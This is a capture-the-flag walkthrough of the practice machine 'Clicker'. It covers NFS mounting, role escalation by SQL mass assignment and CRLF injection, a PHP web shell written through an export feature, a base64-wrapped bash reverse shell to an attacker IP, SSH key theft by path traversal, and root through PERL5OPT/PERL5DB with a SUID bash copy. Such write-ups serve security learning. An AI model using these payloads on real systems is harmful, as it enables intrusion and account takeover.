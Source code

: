 # Clicker

## Enumeration

![Homepage](Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

### Nmap

![Nmap](Screenshots/2023-12-19-11-27-30.png)

```rpcbind reveals that nfs is available and supporting older versions.```

### RPC

![rpcinfo](Screenshots/2023-12-19-11-13-47.png)

```Knowing this, mount the share```

### NFS

![showmounts](Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](Screenshots/2023-12-19-11-35-38.png)

```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

## Foothold

![role](Screenshots/2023-12-19-11-42-05.png)

```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```

![authentication.php](Screenshots/2023-12-19-11-44-47.png)

```To access `admin.php` we'll need to set our role to admin```

![admin.php](Screenshots/2023-12-19-11-45-44.png)


```Theres two ways to achieve that:```
- SQL mass assignment
- CRLF vulnerability


[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment

    role%3d'Admin',clicks=2000

```By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.```

![mass assign](Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

```By adding %0a to `role` we can bypass the blacklist```

![CRLF](Screenshots/2023-12-19-11-49-12.png)

```Now if we relog we should be able to access the admin panel```

![Administration](Screenshots/2023-12-19-11-59-17.png)

![Administration content](Screenshots/2023-12-19-11-59-50.png)

### Exports

![exports](Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](Screenshots/2023-12-19-12-07-50.png)

```As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.```

![php payload](Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

```This is the shortest php payload, it'll work for our needs, however when referring to the custom exploit we'll use a different one as some of the special symbols collide and are not playing nice```

![command execution](Screenshots/2023-12-19-12-23-28.png)

```Now that we've tested that it's possible, time to get a reverseshell```

### Reverse Shell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

```send the payload:```

```bash
echo <your base64 string> | base64 -d | bash
```

![revshell](Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](Screenshots/2023-12-19-13-02-55.png)

```By running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.```

![Strace for execute_query 1](Screenshots/2023-12-19-13-04-31.png)

```we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.```

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](Screenshots/2023-12-19-13-10-24.png)

```It executes the same file as option 1 would. Let's try directory traversal.```

![/etc/passwd/](Screenshots/2023-12-19-13-11-43.png)

```Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.```

![id_rsa](Screenshots/2023-12-19-13-13-51.png)

```We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. ```

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](Screenshots/2023-12-19-13-19-41.png)

## Escalation to root

```Check for sudo -l to list all sudo priviledges```

![sudo -l](Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](Screenshots/2023-12-19-13-26-41.png)

```We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable. So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:```

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

```Essentially we're only interested in the payload:```

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

```Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.```

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

```It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.```

![euid=root](Screenshots/2023-12-19-13-41-23.png)

#### Flag

![rootflag](Screenshots/2023-12-19-13-42-16.png)

![Pwnd](Screenshots/2023-12-19-13-45-08.png)
